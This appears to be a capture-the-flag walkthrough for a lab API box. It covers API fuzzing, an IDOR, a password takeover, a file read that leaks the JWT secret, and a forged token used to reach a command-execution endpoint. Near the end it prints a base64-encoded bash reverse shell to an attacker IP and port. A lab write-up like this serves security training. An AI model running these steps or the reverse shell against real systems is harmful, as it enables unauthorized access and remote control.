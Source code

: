 # external scan
```
Nmap scan report for 10.10.11.161
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    uvicorn
|_http-server-header: uvicorn
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     content-type: text/plain; charset=utf-8
|     Connection: close
|     Invalid HTTP request received.
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Mon, 13 Jun 2022 04:48:25 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Mon, 13 Jun 2022 04:48:13 GMT
|     server: uvicorn
|     content-length: 29
|     content-type: application/json
|     Connection: close
|     {"msg":"UHC API Version 1.0"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Mon, 13 Jun 2022 04:48:19 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
```


# API portal
We start by navigating to the url where we notice there's a backend API running with no real front end
![[Pasted image 20220612175503.png]]

In order to fuzz an API we can use feroxbuster, this works better than a lot of the typical directory brute-force tools. This allows us to investigate by utilizing both POST and GET requests as APIs are typically coded to give different response depending on which method is used.

![[Pasted image 20220612202435.png]]

`feroxbuster -u http://10.10.11.161/ --force-recursion -C 404,405 -m GET,POST -w ~/tools/words/SecLists/Discovery/Web-Content/raft-small-words.txt`

We eventually find the following endpoint:
`http://10.10.11.161/api/v1/user/signup`
We also can investigate a number of users which are already created
`http://10.10.11.161/api/v1/user/1`

Interestingly, since this is an API http://10.10.11.161/api/v1/user will yield a 404 however you are still able to traverse the directory to reach other endpoints.

From there we just need to craft a POST request to the signup endpoint and include the requested JSON data. 

![[Pasted image 20220612210410.png]]

We can now login, this time including our username and password in the more typical x-www-form-urlencoded format.

![[Pasted image 20220612210343.png]]

Once logged in we see we've been issued an access token in the form of a JWT which we can use to access the /docs endpoint
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Nzk5MjE2LCJpYXQiOjE2NTUxMDgwMTYsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiMDNkNDE4OGMtY2NjZS00MzQ2LThhMDctNmMwZjI0ZTkxODlmIn0.f0Z-HroTREtGBBqJnDNUmNnKru_B4VdQWwQxVr9HYVY`

Burp Suit was hanging when trying to access the /docs endpoint with the jwt but curl was working fine

![[Pasted image 20220612222440.png]]

We can also use the firefox extension simple-modify-headers with no URL specified in order to correctly follow redirects.
![[Pasted image 20220612222558.png]]


From there we gain access to the /docs endpoint with a number of controls.
![[Pasted image 20220612235044.png]]
Scrolling down we can see the dropdown marked "/api/v1/user/SecretFlagEndpoint Get Flag"


# root flag
In order to get root we first must abuse a misconfiguration which allows us to modify the admin password by obtaining the GUID through an IDOR present on the /docs page

![[Pasted image 20220613001509.png]]

We can now use this guid to request a password change
![[Pasted image 20220613001819.png]]

To obtain root we now we move on to two more endpoints present on the API. The first, /admin/file, allows us to retrieve files on the system and the second is /admin/exec which allows  code execution. Unfortunately, the /admin/exec endpoint requires the "debug" flag to be present in our JWT. For this we will need to modify our current JWT via https://jwt.io/ and to do this we will need the token secret which can probably be found somewhere on the file system.

Whenever an LFI is encountered on a linux system its usually a good idea to enumerate the /proc folder, for this example /proc/self/environ proves helpful in orientating us on the box.

![[Pasted image 20220613003216.png]]

Here we see the name of the app module as it appears on the filesystem and the current working directory. These two allow us to read app/main.py, the source code for the application.

As the source code is transmitted via json we can use cyber chef to clean it up a bit.

![[Pasted image 20220613004139.png]]

![[Pasted image 20220613004155.png]]

In the source we spot that during import a file named "config.py" is called, this is found in the /app/core directoy. (note that during import python denotes directories with . and drops the file extension)
![[Pasted image 20220613004927.png]]

We once again use our LFI to grab this config file and upon inspection we find the JWT secret

![[Pasted image 20220613005611.png]]

![[Pasted image 20220613005526.png]]
We can now head back over to http://jwt.io and edit our admin token, adding the required debug field. This should allow us to utilize the /admin/exec endpoint.

![[Pasted image 20220613005933.png]]

Burp was still hanging trying to access with the token but curl was working fine
![[Pasted image 20220613010526.png]]
An even easier route would be to use the web portal with a base64 encoded reverse shell. 
create payload:
`echo 'bash -i >& /dev/tcp/10.10.14.19/9000 0>&1' | base64 `
and craft payload for submission via command section of the web portal:
`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS85MDAwIDA+JjEK" | base64 -d| bash`

![[Pasted image 20220613113340.png]]

![[Pasted image 20220613113424.png]]
once on the box we see an auth.log file which is interesting, upon inspection we see a login failure for a user with a strange name
![[Pasted image 20220613113823.png]]
A good practice when anlysing log files is to make note of any failures with unique or interesting names and use them for passwords. In this case it looks like the admin user mistakenly entered their password when their username was requested. 

